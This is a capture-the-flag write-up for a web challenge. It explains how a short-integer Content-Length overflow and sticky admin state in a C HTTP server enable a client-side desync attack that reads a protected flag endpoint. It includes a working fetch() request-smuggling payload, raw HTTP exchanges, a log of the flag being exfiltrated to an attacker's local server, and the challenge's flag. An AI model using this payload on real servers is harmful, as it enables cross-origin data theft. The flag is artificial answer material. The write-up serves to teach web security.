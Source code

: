 # Now You C Me

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{d0_y0u_SEE_n0w_288df01d75e410233426eb0c74897b9f}`

## Description

Can you C the flag though?

Note:

- The HTTP server is not publicly exposed, but you can test locally. Submit your URL for the admin bot to visit.
- Use the `http://chall` URL as the target page.

## Difficulty

Medium

## Solution

This challenge is inspired by [client-side desync research](https://i.blackhat.com/USA-22/Wednesday/us-22-Kettle-Browser-Powered-Desync-Attacks-wp.pdf) by James Kettle. While this research focused on scenarios involving more than one request-response sequence (one to poison the connection stream, one legitimate), this challenge is meant to be solved with only one request-response sequence.

In this challenge, the unauthenticated `/` URL is publicly readable due to CORS being enabled. This is intended as these public pages should pose no security risk.

```c
// Non authenticated endpoints
#define PUBLIC_RESPONSE_HEADERS printf("Access-Control-Allow-Headers: Authorization\n" \
                                       "Access-Control-Allow-Methods: GET, POST, OPTIONS\n" \
                                       "Access-Control-Allow-Credentials: %s\n" \
                                       "Access-Control-Allow-Origin: %s\n" \
                                       "Content-Type: text/html; charset=UTF-8\n\n", \
                                       request_header("Origin") ? "true" : "false", \
                                       request_header("Origin") ? request_header("Origin") : "*")
```

The authenticated `/api/flag` API endpoint, however, is not CORS-enabled. Therefore, by the Same Origin Policy, the browser will not allow arbitrary pages to access the flag.

If we exploit the desync vulnerability, we can **make a request to the CORS-enabled `/` URL** that will be **split into two seperate requests** by the server. The first request will be the legitimate request to `/`, and the second request will be the malicious request to `/api/flag`. The server then answers both requests. Because the browser treats this as a single response (for the `/` URL), we can read both responses thanks to the first response's CORS headers.

The vulnerability here is simple enough to spot - the `Content-Length` is processed using `atoi` and a sufficiently large `Content-Length` causes an overflow in the `payload_size`.

```c
short payload_size;

...

payload_size = t2 ? atoi(t2) : 0;
```

The interesting part is crafting the exploit. Client-side desync attacks are powerful because they can be constructed from perfectly valid requests through the `fetch` API.

For instance,

```javascript
fetch("http://app/api/", {method: "POST", credentials: "include", body: "xx\r\nPOST /api/flag HTTP/1.1\r\nHost: x.com\r\nOrigin: http://x.com\r\n\r\n" + "a".repeat(65540 - 66) }).then(r => r.text()).then(data => console.log(data))
```

sends

```http
POST /api/ HTTP/1.1
Host: app
Content-Length: 65540
Pragma: no-cache
Cache-Control: no-cache
Authorization: Basic YWRtaW46am95b3VzLXVubGluZWQtdW5zb2NpYWw=

...

Connection: close

xx
POST /api/flag HTTP/1.1
Host: x.com
Origin: http://x.com

aaa ... (until 65540 `Content-Length`)
```

which is processed by the server as two requests: the first one having a content length of 4 (due to the overflow) and the second one being a POST request to `/api/flag`.

The second bug is in the setting of `is_admin` - as long as the first request has a valid `Authorization` header, any subsequent requests in the same TCP stream will be treated as authenticated.

```c
if (request_header("Authorization") != NULL && strstr(request_header("Authorization"), getenv("SECRET")) != NULL) {
    is_admin = true;
}
```

After making the above request, the flag would be found in the response and can be read by our JavaScript.

```http
HTTP/1.1 500 Internal Server Error
Access-Control-Allow-Headers: Authorization
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://www.example.com
Content-Type: text/html; charset=UTF-8


HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8

{"flag": "SEE{d0_y0u_SEE_n0w_288df01d75e410233426eb0c74897b9f}"}
```

The solution script is available [here](./solve/exploit.html).

```
$ python3 -m http.server 1337
Serving HTTP on :: port 1337 (http://[::]:1337/) ...
::1 - - [30/Dec/2022 02:16:25] "GET /exploit.html HTTP/1.1" 200 -
::1 - - [30/Dec/2022 02:16:26] "GET /?data=SFRUUC8xLjEgMjAwIE9LCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24vanNvbjsgY2hhcnNldD1VVEYtOAoKeyJmbGFnIjogIlNFRXtkMF95MHVfU0VFX24wd18yODhkZjAxZDc1ZTQxMDIzMzQyNmViMGM3NDg5N2I5Zn0ifQ== HTTP/1.1" 200 -
```

## Interesting Sidenotes

- It might take one or two tries before a successful attempt, as the `recv()` call in the server might not have read the entire request. In the solution script, I did 10 attempts.
- Because Chrome pools its connection sockets for potential reuse, the admin bot starts a new Chrome instance for each request. This prevents players from interfering with each others' attacks.
